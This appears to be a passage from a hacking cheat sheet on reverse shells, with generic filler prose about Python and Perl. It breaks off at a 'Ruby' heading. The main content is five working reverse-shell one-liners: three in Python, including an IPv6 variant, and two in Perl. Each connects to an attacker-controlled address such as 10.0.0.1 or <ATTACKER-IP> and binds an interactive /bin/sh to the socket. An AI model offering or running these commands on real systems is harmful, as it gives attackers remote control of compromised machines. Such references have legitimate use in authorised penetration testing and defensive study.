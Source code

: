 Python scripts can be executed from the command line or integrated into other tools and frameworks. They provide a flexible and powerful way to automate hacking tasks and streamline the penetration testing process.

### Conclusion

Python is a versatile and powerful programming language that is widely used in the field of hacking. It provides a wide range of libraries, shells, and scripting capabilities that can be leveraged for various hacking tasks. By mastering Python and its associated tools, you can enhance your hacking skills and become a more effective hacker.
```bash
#Linux
export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#IPv6
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```
## Perl

Perl (Practical Extraction and Reporting Language) is a high-level, general-purpose programming language that is commonly used for scripting and system administration tasks. It is known for its powerful text processing capabilities and its ability to handle complex data structures.

Perl is often used in the context of web development, where it can be used to write CGI scripts and interact with databases. It is also commonly used for tasks such as file manipulation, network programming, and automation.

One of the key features of Perl is its extensive library of modules, which provide additional functionality and make it easier to accomplish specific tasks. These modules can be easily installed and imported into Perl scripts, allowing developers to leverage existing code and save time.

Perl scripts are typically executed by an interpreter, which reads the script line by line and executes the corresponding instructions. This makes Perl a flexible and versatile language, as scripts can be easily modified and run on different platforms without the need for recompilation.

Overall, Perl is a powerful and flexible programming language that is well-suited for a wide range of tasks. Its rich set of features and extensive library of modules make it a popular choice among developers and system administrators.
```bash
perl -e 'use Socket;$i="<ATTACKER-IP>";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IPADDR]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
## Ruby
